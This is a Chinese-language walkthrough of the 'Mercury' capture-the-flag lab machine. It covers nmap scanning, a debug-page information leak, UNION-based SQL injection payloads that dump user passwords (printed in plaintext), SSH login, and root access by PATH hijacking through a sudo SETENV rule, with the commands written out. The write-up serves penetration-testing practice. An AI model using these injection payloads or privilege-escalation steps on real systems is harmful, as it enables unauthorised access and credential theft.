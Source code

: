 # Mercury

## 主机发现

![image-20230308095751776](C:\Users\june\AppData\Roaming\Typora\typora-user-images\image-20230308095751776.png)

## 信息收集

### 端口和版本扫描：

```
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
8080/tcp open  http-proxy WSGIServer/0.2 CPython/3.8.2
MAC Address: 00:0C:29:93:B2:0C (VMware)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
```

### 漏洞扫描：

`nmap -p8080,22 -sC -T5 --min-rate=10000 192.168.247.132`

```
Nmap scan report for 192.168.247.132
Host is up (0.0016s latency).

PORT     STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey: 
|   3072 c824ea2a2bf13cfa169465bdc79b6c29 (RSA)
|   256 e808a18e7d5abc5c66164824570dfab8 (ECDSA)
|_  256 2f187e1054f7b917a2111d8fb330a52a (ED25519)
8080/tcp open  http-proxy
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
| http-robots.txt: 1 disallowed entry 
|_/
```

```
nmap -p8080,22 --script=vuln --min-rate=10000 192.168.247.132

Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-07 21:30 EST
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Stats: 0:08:11 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 98.48% done; ETC: 21:39 (0:00:07 remaining)
Nmap scan report for 192.168.247.132
Host is up (0.00051s latency).

PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_      http://ha.ckers.org/slowloris/
| http-enum: 
|_  /robots.txt: Robots file

```



### 访问8080端口

什么也没有，要切换http并8080端口访问。在面页面枚举的前提下知道这是一个基于python的网页

![image-20230308105216844](C:\Users\june\AppData\Roaming\Typora\typora-user-images\image-20230308105216844.png)

### 信息泄露漏洞

随意输入得到了网页的错误页面，有效路径为   

```
 [name='index']
 robots.txt [name='robots']
 mercuryfacts/
```

最终在mercuryfacts看到了有效信息：

![image-20230308105523277](C:\Users\june\AppData\Roaming\Typora\typora-user-images\image-20230308105523277.png)

### sql注入漏洞

得到信息当前网站为开发中网站，后台有数据库且存在表名user，前台有直接调用MySQL的地方

![image-20230308105649395](C:\Users\june\AppData\Roaming\Typora\typora-user-images\image-20230308105649395.png)

![image-20230308110209069](C:\Users\june\AppData\Roaming\Typora\typora-user-images\image-20230308110209069.png)

执行的sql语句

```
/mercuryfacts/44 union select group_concat(table_name) from information_schema.tables where table_schema=database()/  得到表名
/mercuryfacts/44 union select group_concat(column_name) from information_chema.columns where table_name='users'/ 得到字段名称
/mercuryfacts/10 union select group_concat(username,0x2d,password) from users/  得到密码

john-johnny1987,laura-lovemykids111
sam-lovemybeer111
webmaster-mercuryisthesizeof0.056Earths
```

![image-20230308111931912](C:\Users\june\AppData\Roaming\Typora\typora-user-images\image-20230308111931912.png)

![image-20230308112544442](C:\Users\june\AppData\Roaming\Typora\typora-user-images\image-20230308112544442.png)

![image-20230308112937460](C:\Users\june\AppData\Roaming\Typora\typora-user-images\image-20230308112937460.png)

## 漏洞利用

尝试ssh登录

使用账户`webmaster`登录成功

![image-20230308113609056](C:\Users\june\AppData\Roaming\Typora\typora-user-images\image-20230308113609056.png)

得到第一个flag：

```
[user_flag_8339915c9a454657bd60ee58776f4ccd]
```

![image-20230308114431639](C:\Users\june\AppData\Roaming\Typora\typora-user-images\image-20230308114431639.png)

查找文件的得到：

```
webmaster for web stuff - webmaster:bWVyY3VyeWlzdGhlc2l6ZW9mMC4wNTZFYXJ0aHMK
linuxmaster for linux stuff - linuxmaster:bWVyY3VyeW1lYW5kaWFtZXRlcmlzNDg4MGttCg==
```

使用base64解密得到：

```
mercurymeandiameteris4880km
```

再次ssh登录

登录成功，但是权限不足

```
Matching Defaults entries for linuxmaster on mercury:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User linuxmaster may run the following commands on mercury:
    (root : root) SETENV: /usr/bin/check_syslog.sh
```

## 权限提升

[sudo+SETENV(环境变量)提权 - 隐念笎 - 博客园 (cnblogs.com)](https://www.cnblogs.com/zlgxzswjy/p/15471061.html)

```
原理：
伪造系统给的可以执行的单一命令，将当前环境变量添加，并sudo使用当前的环境变量，达到权限提升的目的

首先环境变量劫持提权的条件，就是系统中存在带有suid的文件，且这个 文件中必须有系统命令；
这样我们就可以命名一个和这个系统命令相同的文件，写入/bin/bash, 再将存放这个文件的路径加入环境变量中；
当系统去执行这个带有系统命令的文件时，就会直接执行我们命名和这个系统命令相同的文件，而非真实的系统命令；
从而实现劫持环境变量提权。

export LD_LIBRARY_PATH=/home/.....(动态库的目录)

不过这种设置方法只是在当前的session中有效

tips:sudo /bin/bash 即切换为root

写入命令：
echo "/bin/bash" > tail
chmod +x tail
export PATH=.:$PATH
sudo --preserve-env=PATH /usr/bin/check_syslog.sh
提权成功
```

![image-20230308123038750](C:\Users\june\AppData\Roaming\Typora\typora-user-images\image-20230308123038750.png)

root目录下获得flag

```
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@/##////////@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@(((/(*(/((((((////////&@@@@@@@@@@@@@
@@@@@@@@@@@((#(#(###((##//(((/(/(((*((//@@@@@@@@@@
@@@@@@@@/#(((#((((((/(/,*/(((///////(/*/*/#@@@@@@@
@@@@@@*((####((///*//(///*(/*//((/(((//**/((&@@@@@
@@@@@/(/(((##/*((//(#(////(((((/(///(((((///(*@@@@
@@@@/(//((((#(((((*///*/(/(/(((/((////(/*/*(///@@@
@@@//**/(/(#(#(##((/(((((/(**//////////((//((*/#@@
@@@(//(/((((((#((((#*/((///((///((//////(/(/(*(/@@
@@@((//((((/((((#(/(/((/(/(((((#((((((/(/((/////@@
@@@(((/(((/##((#((/*///((/((/((##((/(/(/((((((/*@@
@@@(((/(##/#(((##((/((((((/(##(/##(#((/((((#((*%@@
@@@@(///(#(((((#(#(((((#(//((#((###((/(((((/(//@@@
@@@@@(/*/(##(/(###(((#((((/((####/((((///((((/@@@@
@@@@@@%//((((#############((((/((/(/(*/(((((@@@@@@
@@@@@@@@%#(((############(##((#((*//(/(*//@@@@@@@@
@@@@@@@@@@@/(#(####(###/((((((#(///((//(@@@@@@@@@@
@@@@@@@@@@@@@@@(((###((#(#(((/((///*@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@@%#(#%@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@

Congratulations on completing Mercury!!!
If you have any feedback please contact me at SirFlash@protonmail.com
[root_flag_69426d9fda579afbffd9c2d47ca31d90]
```



